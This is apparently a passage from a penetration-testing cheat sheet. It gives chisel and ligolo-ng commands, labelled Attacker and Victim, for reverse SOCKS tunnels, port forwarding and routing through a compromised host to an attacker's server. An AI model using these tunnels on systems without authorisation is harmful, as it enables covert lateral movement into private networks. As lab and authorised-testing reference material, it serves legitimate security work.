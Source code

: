 You can download it from the releases page of [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)\
You need to use the **same version for client and server**

### socks

```bash
./chisel server -p 8080 --reverse #Server -- Attacker
./chisel-x64.exe client 10.10.14.3:8080 R:socks #Client -- Victim
#And now you can use proxychains with port 1080 (default)

./chisel server -v -p 8080 --socks5 #Server -- Victim (needs to have port 8080 exposed)
./chisel client -v 10.10.10.10:8080 socks #Attacker
```

### Port forwarding

```bash
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse #Server -- Attacker
./chisel_1.7.6_linux_amd64 client 10.10.14.20:12312 R:4505:127.0.0.1:4505 #Client -- Victim
```

## Ligolo-ng

[https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

**Use the same version for agent and proxy**

### Tunneling

```bash
# Start proxy server and automatically generate self-signed TLS certificates -- Attacker
sudo ./proxy -selfcert
# Create an interface named "ligolo" -- Attacker
interface_create --name "ligolo"
# Print the currently used certificate fingerprint -- Attacker
certificate_fingerprint
# Start the agent with certification validation -- Victim
./agent -connect <ip_proxy>:11601 -v -accept-fingerprint <fingerprint>
# Select the agent -- Attacker
session
1
# Start the tunnel on the proxy server -- Attacker
tunnel_start --tun "ligolo"
# Display the agent's network configuration -- Attacker
ifconfig
# Create a route to the agent's specified network -- Attacker
interface_add_route --name "ligolo" --route <network_address_agent>/<netmask_agent>
# Display the tun interfaces -- Attacker
interface_list
```

### Agent Binding and Listening
